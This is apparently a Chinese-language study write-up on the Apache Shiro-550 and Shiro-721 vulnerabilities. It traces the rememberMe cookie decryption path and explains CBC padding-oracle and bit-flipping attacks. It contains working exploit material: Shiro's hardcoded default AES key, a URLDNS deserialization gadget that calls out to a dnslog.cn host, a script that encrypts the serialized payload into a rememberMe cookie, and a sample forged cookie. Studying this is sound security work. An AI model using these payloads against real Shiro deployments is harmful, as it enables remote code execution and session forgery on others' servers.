## shiro550

#### 1. cookie 加密过程



找 cookie 的加密过程，全局搜索 Cookie ，找到 Shiro 包中的一个类 CookieRememberMeManager 其中有两个主要方法 


`rememberSerializedIdentity()`

​    传入当前web请求的上下文持有者 subject 和 经过序列化和加密后的用户信息 serialized，可以看到 serialized 被 base64 编码后执行 cookie.saveTo() 方法，写到了 response 的 RememberMe 字段中。

```java
protected void rememberSerializedIdentity(Subject subject, byte[] serialized) {
    if (!WebUtils.isHttp(subject)) {
        if (log.isDebugEnabled()) {
            String msg = "Subject argument is not an HTTP-aware instance.  This is required to obtain a servlet request and response in order to set the rememberMe cookie. Returning immediately and ignoring rememberMe operation.";
            log.debug(msg);
        }

    } else {
        HttpServletRequest request = WebUtils.getHttpRequest(subject);
        HttpServletResponse response = WebUtils.getHttpResponse(subject);
        String base64 = Base64.encodeToString(serialized);
        Cookie template = this.getCookie();
        Cookie cookie = new SimpleCookie(template);
        cookie.setValue(base64);
        cookie.saveTo(request, response);
    }
}
```


` getRememberedSerializedIdentity()`

​    先判断是不是 http 请求，再看身份是否被移除，然后获取 request 和 response，从 request 中读取 cookie ，如果是 deleteMe 字段返回 null ，否则 base64 解密，返回解密后的数据。

```java
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {
    if (!WebUtils.isHttp(subjectContext)) {
        if (log.isDebugEnabled()) {
            String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a servlet request and response in order to retrieve the rememberMe cookie. Returning immediately and ignoring rememberMe operation.";
            log.debug(msg);
        }

        return null;
    } else {
        WebSubjectContext wsc = (WebSubjectContext)subjectContext;
        if (this.isIdentityRemoved(wsc)) {
            return null;
        } else {
            HttpServletRequest request = WebUtils.getHttpRequest(wsc);
            HttpServletResponse response = WebUtils.getHttpResponse(wsc);
            String base64 = this.getCookie().readValue(request, response);
            if ("deleteMe".equals(base64)) {
                return null;
            } else if (base64 != null) {
                base64 = this.ensurePadding(base64);
                if (log.isTraceEnabled()) {
                    log.trace("Acquired Base64 encoded identity [" + base64 + "]");
                }

                byte[] decoded = Base64.decode(base64);
                if (log.isTraceEnabled()) {
                    log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
                }

                return decoded;
            } else {
                return null;
            }
        }
    }
}

```

能看出来，是有方法调用到了这个 getRememberedSerializedIdentity() 方法，下一步去向上寻找。

.class 文件下层次结构总找不到前面的调用方法，进入CookieRememberMeManager 所 extends 的父类AbstractRememberMeManager 中，ctrl+f 搜索该方法，找到getRememberedPrincipals 方法。


这里的 PrincipalCollection 通常是多个 Realm（数据源） 的集合。

该方法先把 base64 解码后的数据赋值给  bytes ，然后将其做convertBytesToPrincipals() 方法的处理，赋值给 principals。

于是跟进看一下 convertBytesToPrincipals() 的实现。



做了两件事情，解密和反序列化。principals 就相当于是用户信息的明文数据了。

看一下 decrypt 怎么实现的。



获取密钥服务，然后再次调用 decrypt ，跟进发现是一个接口。查看 decrypt 的参数，第一个是加密的数据，第二个是 key 。然后跟进 key 




然后找到 key 是一个硬编码的字符串

```java
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

public AbstractRememberMeManager() {
    this.setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}

public void setCipherKey(byte[] cipherKey) {
    this.setEncryptionCipherKey(cipherKey);
    this.setDecryptionCipherKey(cipherKey);
}

public void setEncryptionCipherKey(byte[] encryptionCipherKey) {
    this.encryptionCipherKey = encryptionCipherKey;
}

public void setDecryptionCipherKey(byte[] decryptionCipherKey) {
    this.decryptionCipherKey = decryptionCipherKey;
}
```

接下来跟进 deserialize 



```java
private Serializer<PrincipalCollection> serializer = new DefaultSerializer();

public Serializer<PrincipalCollection> getSerializer() {
    return this.serializer;
}
```

获取一个专门处理 PrincipalCollection 数据的默认的序列化器，然后反序列化 bytes 。其中 deserial() 方法调用了 readObject()




#### 2. shiro550 漏洞利用

 

​    如果我们 http 请求的 cookie 中带有 RememberMe 字段，会对这个字段的值进行 derserialize 操作，即调用 readObject() 方法。

#### 1. URLDNS 

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;


public class Main {
    public static void main(String[] args) throws IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {
        HashMap<URL,String> map = new HashMap<>();
        URL url = new URL("http://zv45cu.dnslog.cn");

        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(url,1234);

        map.put(url,"test");


        Field field1 = URL.class.getDeclaredField("hashCode");
        field1.setAccessible(true);
        field1.set(url,-1);


        FileOutputStream a = new FileOutputStream("D:\\tools_D\\java\\java_learn\\shiro550\\src\\main\\webapp\\ser.bin");
        ObjectOutputStream out = new ObjectOutputStream(a);
        out.writeObject(map);
        out.close();

//        FileInputStream b = new FileInputStream("D:\\tools_D\\java\\java_learn\\shiro550\\src\\main\\webapp\\ser.bin");
//        ObjectInputStream i = new ObjectInputStream(b);
//        i.readObject();


    }
}
```

然后将 ser.bin 加密放入 rememberMe 字段。

```python
import uuid
import base64
from Crypto.Cipher import AES

def read_data(filename):
    file = open(filename, "rb")
    data = file.read()
    file.close()
    return data

def enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    mode = AES.MODE_CBC
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
    return ciphertext

if __name__ == "__main__":
    data = read_data("ser.bin")
    print(enc(data))
```

得到

```
GqqleiFyRIKDczYSD3ASBDSMe3t5bcbdSZXBQjvB8yMnJdG8BKZeGQbfoUbQ2F1Z6Q8MNrwLLPa0wbphyLvlBPhRiWICjCsG6XUkr9E4oBUy0HnypoRB/6vpLZbk8mp8+iLdTc7sWTRU4Vmx72542wfvQIFg6t7NBCNmfwDxLpVBBhlvcOxEswp1iVR5lOVaH6bzuaPBPoFtl5kzP/L62T0nAjtSOt/uWgjCqoHohjMgmUR05dJlXj8G7OcXupPlic3F8+Daf4IgOHYFHRgdmGoXKF2K6ftQOhrngrZiX9eNQU7vz2vJIxWnkq6ZRicrwVickx8EYsmRqafj/6kNSUOTUBFc4phicojtg18b3B0CJQbZ2gEZ6Lpwu0U/sdM/
```







## shiro721

相对于 shiro550 ，密钥变成随机生成的。利用前提如下

- 1.2.5 <= Apache Shiro <= 1.4.1
- 开启 rememberMe 
- 有一个正常登录获取 Cookie 的账户
- 密文可控
- rememberMe 使用 cbc mode 解密

因为 aes-cbc 模式有一些缺陷，当我们拿到一个正常登录获取的 rememberMe 字段时

```
CxqINaQ/fnirQRly5NeWJDp/SuLs6prxN3isjke+yk73vLeb23p9+PuJrOmXv3FHqturWTlrOB8GrKDv+UVd+QU1ZGhiBbvVbQ+qyqBh1knr9HjtP8YyOxdt3w20OHQ9Jc8VCsnRJ61+EbEokkjTu6L7CC7liXDVGundIZf/B3THJEUTfDJQZ1j1tQJ8CAIyKkD3zvyp1P7+wEjABg78E4fUL0MkYA4qelyQbV2DdPfZ6QmAWZEnnONXdPnM9pyqN7afhgUeZTywuS9yHp4toH7fx96fQmCWCm6q3cPjRQKSQdcNRygNALFjwiXkrd11lWxsbASxulQynL+DLN0osKP2ZSLevE9zSlGsoaj+KMs+44vdGs4Q6Ew32TuNYasNalFsVzfJXM4AAOa+0uR8LExgKoiYLit9uh4wDm67GApB0t6O+KeIspkyoTPeZnpVATzzJVErolB7kGpZfzNuQVpECkDCQ8dBs6H8BXZZPTOTMtuoEQprUst8K/WSrc52
```

正常情况下返回包的值



如果我随便修改一些字节，就会 deleteMe 



接下来看一下为什么会这样



下断点，然后在 bp 中任意修改一字节，发送请求，然后回到 idea。




CBC 模式，PKCS5Padding 填充，128 位 16 字节的 iv ，取整体密文的前 16 位。

```
[ 11, 26, -120, 53, -92, 63, 126, 120, -85, 65, 25, 114, -28, -41, -106, 36 ]
```

encrypted_data 为剩下的 368 字节

```
[58, 127, 74, 226, 236, 234, 154, 241, 55, 120, 172, 142, 71, 190, 202, 78, 247, 188, 183, 155, 219, 122, 125, 248, 251, 137, 172, 233, 151, 191, 113, 71, 170, 219, 171, 89, 57, 107, 56, 31, 6, 172, 160, 239, 249, 69, 93, 249, 5, 53, 100, 104, 98, 5, 187, 213, 109, 15, 170, 202, 160, 97, 214, 73, 235, 244, 120, 237, 63, 198, 50, 59, 23, 109, 223, 13, 180, 56, 116, 61, 37, 207, 21, 10, 201, 209, 39, 173, 126, 17, 177, 40, 146, 72, 211, 187, 162, 251, 8, 46, 229, 137, 112, 213, 26, 233, 221, 33, 151, 255, 7, 116, 199, 36, 69, 19, 124, 50, 80, 103, 88, 245, 181, 2, 124, 8, 2, 50, 42, 64, 247, 206, 252, 169, 212, 254, 254, 192, 72, 192, 6, 14, 252, 19, 135, 212, 47, 67, 36, 96, 14, 42, 122, 92, 144, 109, 93, 131, 116, 247, 217, 233, 9, 128, 89, 145, 39, 156, 227, 87, 116, 249, 204, 246, 156, 170, 55, 182, 159, 134, 5, 30, 101, 60, 176, 185, 47, 114, 30, 158, 45, 160, 126, 223, 199, 222, 159, 66, 96, 150, 10, 110, 170, 221, 195, 227, 69, 2, 146, 65, 215, 13, 71, 40, 13, 0, 177, 99, 194, 37, 228, 173, 221, 117, 149, 108, 108, 108, 4, 177, 186, 84, 50, 156, 191, 131, 44, 221, 40, 176, 163, 246, 101, 34, 222, 188, 79, 115, 74, 81, 172, 161, 168, 254, 40, 203, 62, 227, 139, 221, 26, 206, 16, 232, 76, 55, 217, 59, 141, 97, 171, 13, 106, 81, 108, 87, 55, 201, 92, 206, 0, 0, 230, 190, 210, 228, 124, 44, 76, 96, 42, 136, 152, 46, 43, 125, 186, 30, 48, 14, 110, 187, 24, 10, 65, 210, 222, 142, 248, 167, 136, 178, 153, 50, 161, 51, 222, 102, 122, 85, 1, 60, 243, 37, 81, 43, 162, 80, 123, 144, 106, 89, 127, 51, 110, 65, 90, 68, 10, 64, 194, 67, 199, 65, 179, 161, 252, 5, 118, 89, 61, 51, 147, 50, 219, 168, 17, 10, 107, 82, 203, 124, 43, 245, 146, 173, 206, 118]
```

key(实际情况下未知)

```
[ -112, -15, -2, 108, -116, 100, -28, 61, -99, 121, -104, -120, -59, -58, -102, 104 ]
```

跟进




构建一个 cipher 实例，streaming :false 块处理，包装 key 和 iv 然后初始化 cipher 的一些参数继续跟进 cipher.doFinal(bytes)。



在这里去填充，发现去填充失败，没能使得最后一位为 0x01 ，抛出错误，最后给 reemberMe 赋值 deleteMe，正常 padding 成功没有这个。



接下来是为什么能够通过遍历 0x01 -- 0xff 从而逐步算出中间值，继而与初始前一组密文异或得到明文。

#### CBC 字节翻转

CBC mode 下，密文经过解密得到中间值，再与前一个块的密文异或得到当前块的明文

cipher_i  -->  decrypt --> intermediateValue_i --> xor cipher_i-1  -->  plainText_i


$$
I_i[k] = decrypt(C_i[k])
$$

$$
P_i[k] = I_i[k] \oplus C_{i-1}[k]
$$

想要修改 P_i[k] ，假设初始 p_i[k] 为 p_i[k]old , 目标值为 p_i[k]new，c_i-1[k] 也分 old new。
$$
I_i[k] = I_i[k] \oplus C_{i-1}[k] \oplus C_{i-1}[k] = P_i[k]old \oplus C_{i-1}[k]old
$$
现在期望得到的是 p_i[k]new (已知)。
$$
p_i[k]new = I_i[k] \oplus c_{i-1}[k]new = P_i[k]old \oplus C_{i-1}[k]old \oplus c_{i-1}[k]new
$$
需要算出修改 c_{i-1}[k]old 修改后的值 c_{i-1}[k]new
$$
C'_{i-1}[k] = C_{i-1}[k] \oplus P_i[k]_{old} \oplus P_i[k]_{new}
$$


```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os

# 使用 decrypt_token 模拟服务端解密， Key IV 未知
KEY = os.urandom(16)
IV = os.urandom(16)
BLOCK_SIZE = 16

def get_encrypted_token():
    plaintext = b'A' * 16 + b'user:999;admin=0'
    plaintext = pad(plaintext, BLOCK_SIZE)
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    ciphertext = cipher.encrypt(plaintext)
    return ciphertext

def decrypt_token(ciphertext):
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    plaintext = cipher.decrypt(ciphertext)
    return plaintext


# 获取原始密文
original_ciphertext = get_encrypted_token()
print(f"[+] original ciphertext: {original_ciphertext.hex()}")

modified_ciphertext = bytearray(original_ciphertext)

# 要将 admin=0 改为 admin=1
target_block_index = 1 # 目标在 Block 1 
byte_index_in_block = 15 # 目标字节在块内的偏移量

# 需要修改 Block i-1 的密文
prev_block_start = (target_block_index - 1) * BLOCK_SIZE
target_byte_addr = prev_block_start + byte_index_in_block


C_old = modified_ciphertext[target_byte_addr] # C_{i-1}[k]
P_old = ord('0')                              # P_i[k]_old
P_new = ord('1')                              # P_i[k]_new

# 计算新的密文这一字节
C_new = C_old ^ P_old ^ P_new
modified_ciphertext[target_byte_addr] = C_new
# modified_ciphertext_list = list(modified_ciphertext)
print(f"[+] modified ciphertext: {modified_ciphertext.hex()}")
print(f"\n[+] send fixed ciphertext to server...")
decrypted_plaintext = decrypt_token(bytes(modified_ciphertext))

block1_decrypted = decrypted_plaintext[:16]
block2_decrypted = decrypted_plaintext[16:]


print(f"Block 1 decrypt result (ruined result block1): {block1_decrypted}")
print(f"Block 2 decrypt result (attack success block2): {block2_decrypted}")


```



admin = 1 ,前一个明文块变成乱码因为修改了它密文中一个字节。


后续的修复方案是把 cbc mode 改为了 gcm mode ,修复了 padding oracle 。


**参考资料**

https://drun1baby.top/2022/07/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/